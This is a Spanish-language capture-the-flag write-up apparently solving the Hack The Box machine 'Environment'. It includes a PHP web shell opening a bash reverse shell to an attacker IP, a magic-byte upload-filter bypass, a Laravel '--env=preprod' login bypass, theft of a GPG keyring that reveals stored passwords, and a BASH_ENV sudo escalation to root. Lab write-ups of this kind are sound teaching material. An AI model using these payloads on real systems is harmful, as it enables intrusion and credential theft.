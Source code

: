 # Environment

- **Plataforma:** HTB 
- **Fecha de resolución:** 28/07/2025
- **Autor:** Albr_0x4a

- Enlace a mi archivo de notas para más detalle: [notes.md](./notes.md)
---

## Escaneo de Puertos con Nmap:

- **Identificar puertos abiertos:**

- **Comando:** nmap -p- -n -Pn --min-rate 5000 -sS 10.10.11.67

- **Identificar servicios y versiones en los puertos abiertos:**

- **Comando:** nmap -p22,80 -sCV 10.10.11.67

```bash
# Nmap 7.94SVN scan initiated Sat Jul 26 14:17:05 2025 as: nmap -p22,80 -sCV -oN target 10.10.11.67
Nmap scan report for 10.10.11.67
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 26 14:17:15 2025 -- 1 IP address (1 host up) scanned in 10.58 seconds
```

## Explorando Servicio Web

- Al entrar en la página, no vemos gran cosa, por lo que procedemos a hacer fuzzing a la web en busca de directorios y otros archivos:

```bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://environment.htb/ -t 100 -x php,txt,xml,log
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://environment.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              log,php,txt,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4602]
/login                (Status: 200) [Size: 2391]
/upload               (Status: 405) [Size: 244852]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/up                   (Status: 200) [Size: 2126]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
```

- Primero entramos a `/upload`, ya que tiene un código de estado **405**, al entrar nos encontramos con un error, el cual nos muestra información valiosa como la versión de `Laravel`

![](./screenshots/upload_page.png)

- Al buscar por vulnerabilidades para esta versión de `Laravel`, nos encontramos con que tiene una vulnerabilidad que explotandola podemos conseguir cambiar el entorno en el que trabaja `Laravel`: [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301)

- Proximamente navegamos hacia `/login`, donde nos encontramos con un formulario para iniciar sesión.

![](./screenshots/login_page2.png)

- Después de probar posibles inyecciones `SQL` y `NoSQL`, y modificar parámetros, nos damos cuenta que si enviamos la variable `remember` con un valor diferente de `true` o `false`, nos devuelve un error:

```bash
_token=uAaKjtD5M76sxmk1RcpmZHd7zY895IgojVP8KjmE&email=test%40test.com&password=test&remember=1
```

![](./screenshots/error_login.png)

- En este error podemos ver un fragmento de código, donde la app verifica si el entorno es `preprod`, y si esto se cumple, nos inicia sesión automaticamente como el usuario con id=1 (admin), lo cual podemos explotar con la vulnerabilidad vista anteriormente.

- Para lograr iniciar sesión, necesitamos interceptar la petición y agregar el parámetro `--env` con el valor `preprod`.

```bash
POST /login?--env=preprod HTTP/1.1
```

![](./screenshots/dashboard.png)

- Una vez dentro, vemos que tenemos un mecanismo para modificar la foto de perfil, y si no está validando correctamente, podriamos subir un archivo `.php` y ejecutar código.

![](./screenshots/upload_image.png)

- Creamos nuestro archivo `rce.php` con el siguiente contenido:

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'");
?>
```

- Al subir el archivo nos devuelve un error, y después de un rato sin éxito modificando la extensión y el `Content-Type`, para tratar de burlar el mecanismo, intentamos probar añadiendo los `magic bytes` de un archivo `.gif`:

```bash
(printf '\x47\x49\x46\x38\x37\x61'; cat rce.php) > reverse.php
```

- Nuevamente obtenemos un error al subir el archivo, pero si modificamos la extensión a `.png`, se sube correctamente, por lo que llegamos a la conclusión que se están validando tanto los `magic bytes` como la extensión. Después de un rato probando con diferentes extensiones, tenemos éxito con `.php.` y obtenemos una shell.

![](./screenshots/reverse_shell.png)

- Ya dentro del sistema y después de un rato enumerando, encontramos con que tenemos permisos en el directorio del usuario `hish` y obtenemos acceso al archivo `keyvault.gpg`  en `/home/hish/backup`.

```bash
www-data@environment:/home/hish/backup$ ls
keyvault.gpg
```

- Este archivo es un archivo cifrado o de clave compatible con el estándar OpenPGP, dejo más información sobre este archivo en este [enlace](https://docs.fileformat.com/misc/gpg/)

- Para poder descifrarlo nos traemos el archivo cifrado a nuestro sistema y copiamos los archivos `pubring.kbx`, `trustdb.gpg` y el contenido de la carpeta `private-keys-v1.d` del directorio `/home/hish/.gnupg/` de nuestra máquina comprometida, a  `~/.gnupg/` en nuestra máquina, luego ejecutamos el siguiente comando y obtenemos acceso a los datos cifrados: 

```bash
gpg -d keyvault.gpg
gpg: cifrado con clave de 2048 bits RSA, ID B755B0EDD6CFCFD3, creada el 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

- Con estas credenciales, podemos conectarnos al sistema como el usuario `hish` mediante ssh:

```bash
ssh hish@10.10.11.67
hish@10.10.11.67's password: 
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-bash-5.2$ 
```

- Al ejecutar `sudo -l` vemos que podemos ejecutar `/usr/bin/systeminfo` con permisos de administrador:

```bash
hish@environment:~$ sudo -l
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

- Al revisar este archivo vemos que es un script el cual ejecuta una serie de comandos para mostrar información del sistema:

```bash
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###" 
df -h
```

- Lo primero que notamos es que no se está utilizando la ruta absoluta para ejecutar comandos lo que se podria aprovechar mediante `Path Hijacking`, pero si analizamos de nuevo la salida de `sudo -l`, notamos que el path se está reiniciando, por lo que no funcionaria:

```bash
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty
```

- También podemos observar anteriormente, que la variable de entorno `BASH_ENV` no se reinicia, esta variable se utiliza sobre todo cuando se ejecutan comandos en shells no interactivas, como en scripts. Por lo que si le asignamos la ruta de un script malicioso, se ejecutará sin problemas:

```bash
hish@environment:~$ nano /tmp/mount
hish@environment:~$ cat /tmp/mount
#!/bin/bash

chmod +s /usr/bin/bash
hish@environment:~$ chmod +x /tmp/mount 
hish@environment:~$ export BASH_ENV=/tmp/mount 
```

- Ejecutamos `sudo /usr/bin/systeminfo`, y luego lanzamos una shell privilegiada. Navegamos al directorio `/root/` y obtenemos la flag.

```bash
hish@environment:~$ ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1265648 Mar 30  2024 /usr/bin/bash
hish@environment:~$ bash -p
bash-5.2# whoami
root
bash-5.2# cd /root/
bash-5.2# ls
root.txt  scripts
```

